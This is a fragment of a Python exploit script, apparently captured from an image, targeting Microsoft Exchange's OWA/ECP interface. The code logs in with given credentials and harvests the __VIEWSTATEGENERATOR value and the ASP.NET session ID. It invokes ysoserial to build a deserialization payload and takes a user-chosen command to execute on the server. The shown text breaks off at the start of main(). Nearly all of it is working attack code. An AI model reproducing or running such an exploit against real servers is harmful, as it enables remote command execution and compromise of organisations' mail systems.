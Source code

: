 ```python
    tmp = urlparse(url)
    base_url = "{}://{}".format(tmp.scheme, tmp.netloc)
    paramsPost = {"password": ""+pwd+"", "isUtf8": "1", "passwordText": "", "trusted": "4",
                "destination": ""+url+"", "flags": "4", "forcedownlevel": "0", "username": ""+user+""}
    headers = {"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Upgrade-Insecure-Requests": "1",
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:73.0) Gecko/20100101 Firefox/73.0", "Connection": "close", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Cookie": "PrivateComputer=true; PBack=0"}
    cookies = {"PBack": "0", "PrivateComputer": "true"}
    login_url = base_url + '/owa/auth.owa'
    print("[+] Login url: {}".format(login_url))
    try:
        login = session.post(login_url, data=paramsPost,
                          headers=headers, verify=False, timeout=30)
        print("[*] Status code: %i" % login.status_code)
        if "reason=" in login.text or "reason=" in login.url and "owaLoading" in login.text:
            print("[!] Login Incorrect, please try again with a different account..")
            # sys.exit(1)
        #print(str(response.text))
    except Exception as e:
        print("[!] login error , error: {}".format(e))
        sys.exit(1)
    print("[+] Login successfully! ")
    try:
        print("[*] Tring to get __VIEWSTATEGENERATOR...")
        target_url = "{}/ecp/default.aspx".format(base_url)
        new_response = session.get(target_url, verify=False, timeout=15)
        view = re.compile(
            'id="__VIEWSTATEGENERATOR" value="(.+?)"').findall(str(new_response.text))[0]
        print("[+] Done! __VIEWSTATEGENERATOR:{}".format(view))
    except:
        view = "B97B4E27"
        print("[*] Can't get __VIEWSTATEGENERATOR, use default value: {}".format(view))
    try:
        print("[*] Tring to get ASP.NET_SessionId....")
        key = session.cookies['ASP.NET_SessionId']
        print("[+] Done!  ASP.NET_SessionId: {}".format(key))
    except Exception as e:
        key = None
        print("[!] Get ASP.NET_SessionId error, error: {} \n[*] Exit..".format(e)) 
    return view, key, base_url

def ysoserial(cmd):
    cmd = ysoserial_path+cmd
    r = os.popen(cmd)
    res = r.readlines()
    return res[-1]

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("-s", "--server", required=True, help="ECP Server URL Example: http://ip/owa")
    parser.add_argument("-u", "--user", required=True, help="login account Example: domain\\user")
    parser.add_argument("-p", "--password", required=True, help="Password")
    parser.add_argument("-c", "--cmd", help="Command u want to execute", required=True)
    parser.add_argument("-e", "--encrypt", help="Encrypt the payload", action='store_true',default=False)
    args = parser.parse_args()
    url = args.server
    print("[*] Start to exploit..")
```
